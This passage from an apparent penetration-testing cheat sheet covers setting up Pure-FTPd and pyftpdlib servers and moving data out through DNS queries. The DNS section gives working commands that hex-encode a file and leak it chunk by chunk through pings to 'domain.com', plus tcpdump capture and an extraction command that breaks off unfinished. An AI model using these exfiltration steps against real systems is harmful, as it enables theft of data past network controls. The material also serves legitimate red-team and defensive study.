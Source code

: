 Then we can set up a Pure-FTP configuration like this one:

```bash
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd <username_here>-u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```

To list all FTP users:

```
pure-pw list
```

If a user password is forgotten, you can reset it with the following command:

```
pure-pw passwd username_here
```

Every time you make changes you must update your database with this command:

```
pure-pw mkdb
```

Alternatively and the easiest way is to use pyftpdlib from python:

```
sudo python -m pyftpdlib -p 21 -u user -P pass
```

## Transfer via DNS

Capture DNS packets data.

```
sudo tcpdump -n -i wlan0 -w dns_exfil.pcap udp and src 10.0.0.3 and port 53
```

Note: Remember to point the DNS resolution to where packages are being captured.

Generate DNS queries.

```
xxd -p -c 16 filename.ext | while read h; do ping -c 1 ${h}.domain.com; done
```

Extract exfiltrated data.

```
tcpdump -r dns-exfil.pcap 2>/dev/null | sed -e 's/.*\ \([A-Za-z0-9+/]*\).domain.com.*/
```
